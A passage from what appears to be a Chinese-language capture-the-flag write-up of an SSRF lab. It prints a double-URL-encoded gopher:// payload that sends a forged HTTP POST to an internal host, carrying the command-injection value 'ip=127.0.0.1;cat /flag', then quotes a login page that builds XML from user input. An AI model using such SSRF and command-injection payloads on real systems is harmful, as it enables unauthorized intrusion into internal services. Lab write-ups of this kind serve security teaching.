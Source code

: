 ![image-20240905110534066](https://image.201068.xyz/assets/29.SSRF/image-20240905110534066.png)

```
%25%35%30%25%34%66%25%35%33%25%35%34%25%32%30%25%32%66%25%32%30%25%34%38%25%35%34%25%35%34%25%35%30%25%32%66%25%33%31%25%32%65%25%33%31%25%30%64%25%30%61%25%34%38%25%36%66%25%37%33%25%37%34%25%33%61%25%32%30%25%33%31%25%33%37%25%33%32%25%32%65%25%33%37%25%33%32%25%32%65%25%33%32%25%33%33%25%32%65%25%33%32%25%33%34%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%34%63%25%36%35%25%36%65%25%36%37%25%37%34%25%36%38%25%33%61%25%32%30%25%33%32%25%33%32%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%35%34%25%37%39%25%37%30%25%36%35%25%33%61%25%32%30%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%32%64%25%37%37%25%37%37%25%37%37%25%32%64%25%36%36%25%36%66%25%37%32%25%36%64%25%32%64%25%37%35%25%37%32%25%36%63%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35%25%36%34%25%30%64%25%30%61%25%30%64%25%30%61%25%36%39%25%37%30%25%33%64%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%62%25%36%33%25%36%31%25%37%34%25%32%30%25%32%66%25%36%36%25%36%63%25%36%31%25%36%37
```

###### gopher协议

```bash
gopher%3A%2F%2F172.72.23.24%3A80%2F_%25%35%30%25%34%66%25%35%33%25%35%34%25%32%30%25%32%66%25%32%30%25%34%38%25%35%34%25%35%34%25%35%30%25%32%66%25%33%31%25%32%65%25%33%31%25%30%64%25%30%61%25%34%38%25%36%66%25%37%33%25%37%34%25%33%61%25%32%30%25%33%31%25%33%37%25%33%32%25%32%65%25%33%37%25%33%32%25%32%65%25%33%32%25%33%33%25%32%65%25%33%32%25%33%34%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%34%63%25%36%35%25%36%65%25%36%37%25%37%34%25%36%38%25%33%61%25%32%30%25%33%32%25%33%32%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%35%34%25%37%39%25%37%30%25%36%35%25%33%61%25%32%30%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%32%64%25%37%37%25%37%37%25%37%37%25%32%64%25%36%36%25%36%66%25%37%32%25%36%64%25%32%64%25%37%35%25%37%32%25%36%63%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35%25%36%34%25%30%64%25%30%61%25%30%64%25%30%61%25%36%39%25%37%30%25%33%64%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%62%25%36%33%25%36%31%25%37%34%25%32%30%25%32%66%25%36%36%25%36%63%25%36%31%25%36%37
```

![image-20240905110449743](https://image.201068.xyz/assets/29.SSRF/image-20240905110449743.png)



#### flag7

```
flag{nisp7_no_problem_flag7}
```

### 172.72.23.25

![image-20240905110942804](https://image.201068.xyz/assets/29.SSRF/image-20240905110942804.png)

#### 查看网页源代码

![image-20240905140843898](https://image.201068.xyz/assets/29.SSRF/image-20240905140843898.png)

```
var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
```
